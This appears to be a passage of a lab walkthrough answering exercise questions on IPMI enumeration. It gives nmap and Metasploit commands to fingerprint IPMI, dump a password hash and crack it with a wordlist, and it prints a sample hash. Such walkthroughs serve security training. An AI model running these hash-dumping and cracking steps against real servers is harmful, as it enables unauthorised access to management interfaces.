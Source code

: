 

### Enumeration

1.  What username is configured for accessing the host via IPMI?

    **`sudo nmap -sU -p 623 10.129.165.205 --script ipmi-version`**

    \=> ![](<.gitbook/assets/image (9) (1) (1) (1) (1).png>)

    METASPLOIT

    **`msfconsole`**

    **`use auxiliary/scanner/ipmi/ipmi_version`**

    **`set rhosts <IP>`**

    **`run`**

    **`use auxiliary/scanner/ipmi/ipmi_dumphashes`**

    **`set rhosts <IP>`**

    **`run`**

    \=>![](<.gitbook/assets/image (10) (1) (1) (1) (1).png>)
2.  What is the account's cleartext password?

    we obtained HASH of the password, let´s crack it to obtain cleartext PW from that

    `576c4ea282000000816e7e01165f3ae1d9f94c88fac01d22381acd0e807cc96d7f821ffbdc125ee4a123456789abcdefa123456789abcdef140561646d696e:3d2813e5234fb7ed46ddd88325aa5904858cfaab`

    **`msfconsole`**

    **`use auxiliary/scanner/ipmi/ipmi_dumphashes`**

    **`set pass_file /usr/share/wordlists/rockyou.txt`**

    **`run`**

    \=> ![](<.gitbook/assets/image (11) (1) (1) (1) (1).png>)

